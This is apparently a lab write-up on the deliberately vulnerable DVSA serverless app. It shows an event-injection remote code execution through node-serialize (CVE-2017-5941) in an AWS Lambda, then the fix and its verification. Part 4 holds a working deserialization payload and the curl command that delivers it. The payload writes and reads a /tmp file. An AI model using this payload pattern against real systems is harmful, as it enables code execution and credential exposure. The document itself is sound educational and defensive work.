





# Lesson #1 + Lesson #9: Event Injection via Vulnerable Dependency

> These two lessons are reported together because they share one exploit path: the event-injection RCE (Lesson #1) is only possible because the Lambda imports a vulnerable third-party library (Lesson #9). Each lesson is a distinct vulnerability that requires its own fix; the report shows each one separately in Parts 6 and 7.

---

## Part 1) Goal and Vulnerability Summary

This lesson demonstrates an Event Injection vulnerability (Lesson #1) caused by an unsafe Node.js deserialization library (Lesson #9) in the DVSA-ORDER-MANAGER AWS Lambda function. The application parses incoming JSON request bodies using `node-serialize.unserialize()`, which is tracked by CVE-2017-5941 because it reconstructs and immediately invokes attacker-supplied function literals when it sees the marker `_$$ND_FUNC$$_` followed by `()`. By sending a single crafted JSON request to the `/order` API Gateway endpoint, an attacker can execute arbitrary JavaScript inside the Lambda runtime — reading and writing the `/tmp` directory, exposing environment variables (including AWS temporary credentials), and abusing the function's IAM execution role against other AWS resources. This results in a backend Remote Code Execution that runs before any authentication or validation logic.

---

## Part 2) Why This Works / Root Cause

The vulnerability lives at two distinct layers, which is why this report covers both Lesson #1 and Lesson #9. At the **application-code layer** (Lesson #1), the handler trusts request data as code: it calls `serialize.unserialize(event.body)` instead of `JSON.parse()`, and `node-serialize` rebuilds any string starting with `_$$ND_FUNC$$_` and ending with `()` into a function and immediately invokes it during deserialization. At the **dependency layer** (Lesson #9), the Lambda's `package.json` ships `node-serialize` whose feature set has no legitimate use in a JSON API and is flagged by CVE-2017-5941. Either layer alone is dangerous; together they turn a normal HTTP request into immediate backend code execution. The root cause is therefore "input is treated as code" combined with "dangerous library is shipped" — and a complete fix has to address both.

---

## Part 3) Environment and Setup

- **API Endpoint:** `https://[API-ID].execute-api.us-east-1.amazonaws.com/Stage/order`
- **Affected Lambda:** `DVSA-ORDER-MANAGER`
- **Affected Files:** `order-manager.js`, `package.json`
- **Vulnerable Library:** `node-serialize` (CVE-2017-5941)
- **AWS Region:** us-east-1
- **Tools:** curl, AWS Console (Lambda + CloudWatch)
- **Observability:** CloudWatch Logs group `/aws/lambda/DVSA-ORDER-MANAGER`

---

## Part 4) Reproduction Steps

**Step 1 — Get the endpoint**
1. AWS Console → API Gateway → DVSA-APIS → Stages → Stage
2. Copy the Invoke URL and append `/order`

**Step 2 — Disable bash history expansion** (so `!` inside the payload survives):
```bash
set +H
```

**Step 3 — Build the malicious payload:**
```bash
cat > payload.json <<'EOF'
{
  "action": "_$$ND_FUNC$$_function(){ var fs = require(\"fs\"); fs.writeFileSync(\"/tmp/pwned.txt\", \"You are reading the contents of my hacked file!\"); var fileData = fs.readFileSync(\"/tmp/pwned.txt\", \"utf-8\"); console.error(\"FILE READ SUCCESS: \" + fileData); }()",
  "cart-id": ""
}
EOF
```

**Step 4 — Send the request:**
```bash
curl -X POST "$API" \
  -H "Content-Type: application/json" \
  --data-binary @payload.json
```

**Step 5 — Observe the response.** API Gateway returns `{"message":"Internal server error"}`. That generic 500 is *expected* and is **not** a failure of the attack — the handler crashes after the injected code runs because the request has no valid Authorization header. The real proof is in the logs.

**Step 6 — Open CloudWatch Logs** → log group `/aws/lambda/DVSA-ORDER-MANAGER` → most recent log stream. Look for `FILE READ SUCCESS: You are reading the contents of my hacked file!`. That line proves the injected JavaScript ran inside the Lambda runtime.

A complete reproducible script is in [`exploit/exploit.sh`](exploit/exploit.sh).

---

## Part 5) Evidence and Proof

**Screenshot 1 — Browser response from the /order endpoint:**


**Screenshot 2 — Crafted payload and curl request sent:**


**Screenshot 3 — CloudWatch Logs proving RCE inside the Lambda runtime:**


The `FILE READ SUCCESS` line in the log stream is the key proof. The injected code ran inside the Lambda runtime, wrote `/tmp/pwned.txt`, read it back, and logged the contents — all triggered by a single HTTP request.

---

## Part 6) Fix Strategy / Probable Mitigation

The fix has two independent parts because Lessons #1 and #9 are two distinct vulnerabilities at different layers, both inside `DVSA-ORDER-MANAGER`:

**Fix for Lesson #1 (application code).** Replace the unsafe deserialization calls (`serialize.unserialize(event.body)` and `serialize.unserialize(event.headers)`) with `JSON.parse()` for the body and direct use of `event.headers` (API Gateway already provides it as a plain object). Add an action allowlist as the first check in the handler so that any unknown or malicious action is rejected with HTTP 400 before any backend processing.

**Fix for Lesson #9 (dependency manifest).** Remove `node-serialize` entirely from `package.json`. Removing the import alone is not enough — the package must be gone from the manifest so a future maintainer cannot accidentally reintroduce the unsafe call, and SCA tools no longer flag the deployment.

**Why each half is necessary.** If we only fixed Lesson #1, the dangerous library would still ship and could be reintroduced in one line. If we only fixed Lesson #9, the Lambda would fail to load. Both changes together apply defense in depth: remove the dangerous tool from the toolbox, AND fix the code that was misusing it.

---

## Part 7) Code / Config Changes

**File:** `DVSA-ORDER-MANAGER/order-manager.js`

**BEFORE (Vulnerable):**
```javascript
const serialize = require('node-serialize');
// ...
exports.handler = (event, context, callback) => {
    var req     = serialize.unserialize(event.body);       // <-- RCE sink
    var headers = serialize.unserialize(event.headers);    // <-- same RCE sink
    var auth_header = headers.Authorization || headers.authorization;
    // ... rest of handler
};
```

**AFTER (Fixed):**
```javascript
// Removed: const serialize = require('node-serialize');

const ALLOWED_ACTIONS = [
    'new','update','cancel','get','orders','account','profile',
    'shipping','billing','complete','inbox','message','delete',
    'upload','feedback','admin-orders'
];

exports.handler = (event, context, callback) => {
    // --- Lesson #1 fix: safe parsing, no function deserialization ---
    var req;
    try {
        req = JSON.parse(event.body || '{}');
    } catch (e) {
        return callback(null, {
            statusCode: 400,
            headers: { 'Access-Control-Allow-Origin': '*' },
            body: JSON.stringify({ status: 'err', msg: 'invalid JSON' })
        });
    }
    var headers = event.headers || {};

    // --- Lesson #1 fix: allowlist check rejects unknown/malicious actions ---
    if (typeof req.action !== 'string' || !ALLOWED_ACTIONS.includes(req.action)) {
        return callback(null, {
            statusCode: 400,
            headers: { 'Access-Control-Allow-Origin': '*' },
            body: JSON.stringify({ status: 'err', msg: 'invalid action' })
        });
    }

    var auth_header = headers.Authorization || headers.authorization;
    // ... rest of handler unchanged
};
```

**File:** `DVSA-ORDER-MANAGER/package.json`

**BEFORE:**
```json
"dependencies": {
    "node-serialize": "0.0.4",
    "node-jose": "^2.0.0",
    "@aws-sdk/client-lambda": "^3.0.0",
    "@aws-sdk/client-cognito-identity-provider": "^3.0.0"
}
```

**AFTER (Lesson #9 fix):**
```json
"dependencies": {
    "node-jose": "2.2.0",
    "@aws-sdk/client-lambda": "^3.0.0",
    "@aws-sdk/client-cognito-identity-provider": "^3.0.0"
}
```

The `node-serialize` entry is removed entirely. `node-jose` is pinned to `2.2.0`, which is the first version free of known CVEs per Snyk's vulnerability database. The full fixed handler is in [`fix/order-manager.js`](fix/order-manager.js); the original vulnerable handler is preserved in [`fix/vulnerable-order-manager.js`](fix/vulnerable-order-manager.js) for diff reference.

---

## Part 8) Verification After Fix

**Screenshot 4 — Post-fix response, exploit payload rejected:**


The same exploit payload now returns:
```json
{ "status": "err", "msg": "invalid action" }
```

**Screenshot 5 — Post-fix CloudWatch log stream (clean):**


The log stream shows a clean `START → END → REPORT` for the rejected request. There is no `FILE READ SUCCESS` line, no `/tmp/pwned.txt` is created, and no injected code runs. Legitimate behavior is unaffected: a normal order flow (login → add to cart → place order → shipping → billing) still completes end-to-end through the website.

---

## Part 9) Structured Operation and Security Analysis

### Table A

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| Event Injection + Vulnerable Dependencies (Lessons #1 + #9) | The `/order` API must treat the request body as data only. Request fields must never be deserialized into executable code. Only an allowlisted set of action values is accepted. The Lambda must not ship dependencies with known RCE-class CVEs. | API Gateway stage config, `order-manager.js` source, `package.json`, CloudWatch Logs `/aws/lambda/DVSA-ORDER-MANAGER`, CVE-2017-5941 advisory | A normal order (action=new with a valid cart-id) is parsed, validated, and processed; no arbitrary code runs in the Lambda; `/tmp` is untouched | Payload with `_$$ND_FUNC$$_` is deserialized as a function and invoked; CloudWatch shows `FILE READ SUCCESS: You are reading the contents of my hacked file!` — proving RCE inside the Lambda runtime (Screenshot 3) |

### Table B

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied (Where) | Post-Fix Verification | Optional Latency |
|---|---|---|---|---|---|
| Event Injection + Vulnerable Dependencies (Lessons #1 + #9) | The backend executed attacker-controlled JavaScript from the `action` field because `node-serialize` treats `_$$ND_FUNC$$_` strings as functions. This violates the rule that request bodies must remain data and never become code, and exposes the Lambda's `/tmp`, environment variables, and IAM permissions. | Intentional misuse / security-relevant abuse | `DVSA-ORDER-MANAGER/order-manager.js`: removed `serialize.unserialize`, use `JSON.parse` with an action allowlist. `package.json`: removed `node-serialize`, pinned `node-jose` to `2.2.0`. | Re-sending the same payload now returns HTTP 400 `{"status":"err","msg":"invalid action"}`; CloudWatch no longer shows `FILE READ SUCCESS`; `/tmp/pwned.txt` is not created; legitimate order flow still works (Screenshots 4 and 5) | Not measured |

---

## Part 10) Takeaway / Lessons Learned

This combined lesson shows how a single risky dependency line — `require('node-serialize')` — can silently convert an ordinary HTTP JSON endpoint into a remote code execution vector. In a serverless architecture the blast radius is larger than it first appears: arbitrary code running inside the Lambda inherits the function's IAM role, has full access to its environment variables (including temporary AWS credentials), and can read or write `/tmp`. The secure design principles demonstrated by the fix are: (1) input is data, not code — always use `JSON.parse` rather than a deserializer that can produce executable objects; (2) validate with allowlists, not denylists, at the earliest point in the handler; (3) treat dependencies as part of the attack surface — audit, pin, and remove packages whose feature set is dangerous; and (4) apply defense in depth — even with safe parsing, the Lambda's IAM role should still follow least privilege, so any future bug has a smaller blast radius.
